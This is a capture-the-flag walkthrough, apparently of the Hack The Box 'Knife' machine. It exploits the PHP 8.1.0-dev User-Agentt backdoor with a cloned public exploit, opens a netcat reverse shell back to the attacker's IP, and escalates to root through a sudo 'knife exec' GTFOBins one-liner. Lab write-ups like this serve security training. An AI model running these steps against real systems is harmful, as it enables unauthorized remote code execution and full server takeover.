 # Knife      

![Knife](./Screenshots/knifelogo.png)

## Solution

### Scan with Nmap

Type:

```
nmap -sC -sV {target ip} -v
```

`-sC` - This flag tells Nmap to use the default set of scripts during the scan. These scripts are part of the Nmap Scripting Engine (NSE) and are used for tasks such as version detection, vulnerability detection, and more. Using -sC enhances the scan by providing additional information about the target.

`-sV` - Version detection. Nmap will try to determine the version of the services running on open ports. This is useful for identifying specific software and versions, which can help in assessing potential vulnerabilities.

`-v` - Enables verbose mode. Verbose mode provides more detailed output during the scanning process, allowing you to see more information about what Nmap is doing. This can be helpful for debugging and understanding the progress of the scan.

![nmap](./Screenshots/knifenmap.png)

Here are the descriptions of the open ports shown in the screenshot:

### **22/tcp (SSH)**
The **SSH** service is running **OpenSSH 8.2p1** on **Ubuntu**. This service enables secure remote access and uses **protocol version 2.0**. The scan reveals the server’s SSH host keys, including **RSA (3072-bit)**, **ECDSA (256-bit)**, and **ED25519 (256-bit)**, which are used for encryption and server authentication. The presence of these keys provides an indication of the security configuration for SSH on this system.

### **80/tcp (HTTP)**
The web server running on this port is **Apache httpd 2.4.41** on **Ubuntu**. It supports HTTP methods **GET**, **HEAD**, **POST**, and **OPTIONS**, which allow for a range of client interactions. The HTTP title returned is **Emergent Medical Idea**. Additionally, the **Apache/2.4.41 (Ubuntu)** server header confirms the server type and version, which could be useful in determining any specific vulnerabilities associated with this version.

When I saw that http is open, I pasted `http://{target ip}` into the browser.

![web](./Screenshots/knifeweb.png)

As the site is very limited and you can't navigate through it, I decided to use **Gobuster** to search for subdomains but I did not find anything. 

### cURL + Wappalyzer

I decided to look around. I've checked page source but nothing interesting was there. The most useful thing turned out to be **Wappalyzer** extension.

![cURL](./Screenshots/knifecurl.png)

This led me to read about PHP 8.1.0 but again - I did not find anything that could help me further.

So I typed:

```
curl -I http://{target ip}/
```

![cURL](./Screenshots/knifecurl2.png)

I pasted **PHP/8.1.0-dev** into Google and found an interesting article:

```
https://flast101.github.io/php-8.1.0-dev-backdoor-rce/
```

Long story short:

The article discusses a **backdoor** present in **PHP version 8.1.0-dev**, allowing **remote code execution (RCE)**. This **backdoor** was introduced into the PHP source code by an unauthorized individual, posing a severe security threat to servers running this version of PHP. The **backdoor** is embedded through a simple `user_agent` function call, which accepts code as a parameter and executes it. In practice, this means anyone who calls this code using the appropriate `User-Agent` header can run arbitrary commands on the server.

An attacker could send a specially crafted HTTP request with the `User-Agentt` parameter containing a command they want to execute on the server. This command is then interpreted and executed by PHP without any additional authorization, granting full access to the system. This kind of vulnerability in PHP is highly risky, as it allows intrusion and remote control over the server. The recommended solution is to update PHP to a version that does not contain this backdoor. The article cautions administrators against deploying experimental software versions in production environments. Exploiting this vulnerability may also be challenging to detect, as the attack leaves no obvious traces in the server logs.

I quickly found the exploit to it:

```
https://www.exploit-db.com/exploits/49933
```

```
https://github.com/flast101/php-8.1.0-dev-backdoor-rce
```

### Exploitation

Let's use this `exploit`.

Type in order:

```
git clone https://github.com/flast101/php-8.1.0-dev-backdoor-rce.git
```

```
cd php-8.1.0-dev-backdoor-rce
```

Let's use **backdoor** script.

```
python3 backdoor_php_8.1.0-dev.py
```

Provide `http://{target ip}/` when it asks you to enter the host url.

![Exploitation](./Screenshots/knifeexploit.png)

We have a `shell`. Perfect.

### Get the user flag

The `user` flag is in the `/home/james` path.

![flag](./Screenshots/knifeuserflag.png)

### Privilege escalation

Since the current shell provides limited options for navigating the system and I couldn't find a way to stabilize it, I decided to simply use a reverse shell script (**revshell_php_8.1.0-dev.py**) to make it easier for me to find an idea to escalate privileges.

![PE](./Screenshots/knifepe.png)

### Netcat

First of all, let's set up a **Netcat** listener.

```
nc -lvnp {any port you want}
```

![PE](./Screenshots/knifepe2.png)

Now in the tab with exploit type:

```
python3 revshell_php_8.1.0-dev.py http://{target ip}/ {your tun0 ip} {port you have chosen}
```

and press `Enter`.

![PE](./Screenshots/knifepe3.png)


In you **Netcat** tab you shuld have a shell.

![PE](./Screenshots/knifepe4.png)

It is more stabilized than previous one, excellent.

![PE](./Screenshots/knifepe5.png)

We can see .ssh directory. We could use `james`'s OPENSSH private key to have even better shell by logging through **SSH** but it isn't necessary.

![PE](./Screenshots/knifepe6.png)

Now, we could transfer **LINpeas.sh** script via simple Python3 http server form our local machine to the target machine and run it but I found something interesting and finally this gave me the `root`'s flag.

When I want to escalate privileges I almost always hit:

```
sudo -l
```

command.

This time it was very useful again.

![PE](./Screenshots/knifepe7.png)

The user `james` can run the command `/usr/bin/knife` with root privileges without needing to enter a password (NOPASSWD).

As challenge name is **Knife** I assume that this is fair path to explore.

We could probably edit the `knife` file with some interesting payload and then run it but in cases like this I always like to check **GTFOBins** binaries.

![PE](./Screenshots/knifepe8.png)

I found this. Let's use it.

Let's move to the `/usr/bin` directory first:

```
cd /usr/bin
```

and when we are in the right path, let's type:

```
sudo knife exec -E 'exec "/bin/sh"'
```

![PE](./Screenshots/knifepe9.png)

We are `root` :)

### Get the root flag

`Root` flag is in the `/root` directory.

![flag](./Screenshots/kniferootflag.png)

### Paste the flags

![pwned](./Screenshots/knifepwned.png)